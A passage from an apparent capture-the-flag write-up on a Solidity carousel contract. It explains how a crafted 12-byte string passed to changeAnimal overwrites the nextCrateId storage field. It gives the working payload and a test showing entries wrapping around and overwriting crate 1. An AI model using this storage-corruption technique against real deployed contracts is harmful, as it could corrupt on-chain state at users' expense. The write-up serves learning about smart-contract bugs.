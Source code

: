 2. It's shifted left by 160 bits before being OR'd into the carousel[crateId] storage slot.

3. However, bits 160–175 (nextCrateId) are part of the shifted range.

4. Therefore, the lower 16 bits of encodedAnimal end up overwriting nextCrateId.

### Proof of Exploit:
```solidity
string memory exploitString = string(
    abi.encodePacked(hex"10000000000000000000FFFF") // 12 bytes (96 bits)
);
carousel.changeAnimal(exploitString, 1);

```
***What this does:***
1. The string is exactly 12 bytes long (within limit).

2. Its last two bytes are 0xFFFF, meaning the lower 16 bits of the resulting encodedAnimal are 0xFFFF.

3. When shifted left by 160, it overwrites nextCrateId with 65535

### TestCase:
```solidity
function testBreakMagicRule() public {
    // Step 1: Place "Dog" in crate 1
    carousel.setAnimalAndSpin("Dog");
    uint256 crate1Data = carousel.carousel(1);
    uint256 animalMask = uint256(type(uint80).max) << 176;
    uint256 encodedDog = uint256(keccak256(abi.encodePacked("Dog"))) >> 176;
    uint256 animalInCrate1 = (crate1Data & animalMask) >> 176;
    assertEq(animalInCrate1, encodedDog, "Crate 1 should contain 'Dog'");

    // Step 2: Inject 0xFFFF into nextCrateId
    string memory exploitString = string(
        abi.encodePacked(hex"10000000000000000000FFFF")
    );
    carousel.changeAnimal(exploitString, 1);

    // Step 3: Add "Parrot", it lands in crate 65535
    carousel.setAnimalAndSpin("Parrot");
    uint256 crate65535Data = carousel.carousel(65535);
    uint256 encodedParrot = uint256(keccak256(abi.encodePacked("Parrot"))) >> 176;
    uint256 animalInCrate65535 = (crate65535Data & animalMask) >> 176;
    assertEq(animalInCrate65535, encodedParrot, "Crate 65535 should contain 'Parrot'");

    // Step 4: Add "Cat", it overwrites crate 1 (wraparound)
    carousel.setAnimalAndSpin("Cat");
    uint256 updatedCrate1Data = carousel.carousel(1);
    uint256 updatedAnimal = (updatedCrate1Data & animalMask) >> 176;
    assertTrue(updatedAnimal != encodedDog, "Crate 1 should not contain Dog anymore");
}
```
#### Understanding the Exploit Flow
1. Insert Dog → stored in crate 1.
